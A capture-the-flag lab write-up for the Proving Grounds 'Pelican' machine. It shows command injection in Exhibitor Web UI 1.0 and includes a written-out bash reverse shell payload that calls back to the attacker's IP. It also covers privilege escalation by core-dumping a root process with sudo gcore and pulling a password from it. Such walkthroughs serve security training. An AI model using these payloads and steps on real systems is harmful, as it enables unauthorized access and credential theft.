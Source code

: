 ```yaml
---
description: Writeup for Pelican from Offensive Security Proving Grounds (PG)
---
```


# Pelican

## Service Enumeration

`nmapAutomator.sh -H 192.168.237.98 -t full`

`nmapAutomator.sh -H 192.168.237.98 -t vulns`

![](../../.gitbook/assets/b1e9cd148fff41af9a1a5c311498a19f.png)

## Exploitation

Going to port 8081 redirects us to this page at port 8080.

![](../../.gitbook/assets/a79a90aa19f44cc1845bd80c0a385389.png)

This is an Exhibitor Web UI. We can see from the top right corner of the page that the version is 1.0, which is vulnerable to an OS command injection vulnerability: [https://www.exploit-db.com/exploits/48654](https://www.exploit-db.com/exploits/48654).

In the Config tab, the `java.env script` field can be used to execute arbitrary commands. For instance, we can trigger a reverse shell with `$(bash -i >& /dev/tcp/192.168.49.237/4242 0>&1)`

![](../../.gitbook/assets/174467a8d34340ab9405e1ddb0fc1f6c.png)

Catching the reverse shell:

![](../../.gitbook/assets/25366397daf24093ba85e7c05835e755.png)

Proof:

![](../../.gitbook/assets/722dc85417d740bfb583de190bab4836.png)

## Privilege Escalation

From the LinPEAS output, we find that `root` runs a binary `/usr/bin/password-store`. We don't have permissions to run this, but it looks interesting.

![](../../.gitbook/assets/ed6a246fd620478a8df1c0c7f3561fe7.png)

Now, we find that we can run `gcore` as root with no password.

![](../../.gitbook/assets/59576d9c0c274f77ad361f2eb6360d05.png)

Reference: [https://wiki.sentnl.io/security/hacking-demos/getting-passwords-of-logged-in-users](https://wiki.sentnl.io/security/hacking-demos/getting-passwords-of-logged-in-users)

`gcore` creates a core dump of a running process. A core file or core dump is a file that records the memory image of a running process and its process status.

Using `ps -ef | grep password-store`, we find that the process ID is 493. Then, we can run `gcore` as `sudo` to create a core dump of the process.

![](../../.gitbook/assets/8c0835d98019479e8d347ec35fa30dbf.png)

In the strings output \(`strings core.493`\), we find something interesting.

![](../../.gitbook/assets/a7703a46bd1047b6bdc578069c741e17.png)

Using this root password, we successfully authenticate as root.

![](../../.gitbook/assets/d7367e2cbfd44e75a48f409e87f76b03.png)

![](../../.gitbook/assets/31860bf4e7714d04b428b68f2dbeb9c4.png)

